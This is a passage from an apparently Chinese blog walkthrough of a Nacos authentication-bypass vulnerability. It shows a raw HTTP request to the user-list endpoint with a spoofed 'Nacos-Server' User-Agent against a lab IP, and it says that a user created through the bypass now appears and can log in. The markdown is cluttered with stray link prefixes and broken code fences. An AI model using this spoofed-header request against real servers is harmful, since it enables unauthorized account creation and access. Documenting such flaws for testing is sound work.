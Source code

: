 ```

        
        ![](https://img-blog.csdnimg.cn/img_convert/78e5b89809ae9e233bf4518be4274adb.png)
       
       

       
         
      
      

      
      

       
       

        
        

再次查看用户列表，返回的用户列表数据中，多了一个我们通过绕过鉴权创建的新用户

        
        

         
         ```
[](https://blog.csdn.net/m0_64910183/article/details/130144800?spm=1001.2014.3001.5502)GET /nacos/v1/auth/users/?pageNo=1&amp;pageSize=9 HTTP/1.1
[](https://blog.csdn.net/m0_64910183/article/details/130144800?spm=1001.2014.3001.5502)Host: 192.168.246.138:8848
[](https://blog.csdn.net/m0_64910183/article/details/130144800?spm=1001.2014.3001.5502)User-Agent: Nacos-Server

```

```
     ```
      
      

       
       ![](https://img-blog.csdnimg.cn/img_convert/5e35faa54b702737b08d29d7902c1cf0.png)
      
      

      
      

       
       访问http://IP:8848/nacos使用新建用户登录，此时表示漏洞利用成功
      
      

      
      

       
       

        
        ![](https://img-blog.csdnimg.cn/img_convert/f999bbc518ff324c0bb6151a00114269.jpeg)
       
       
```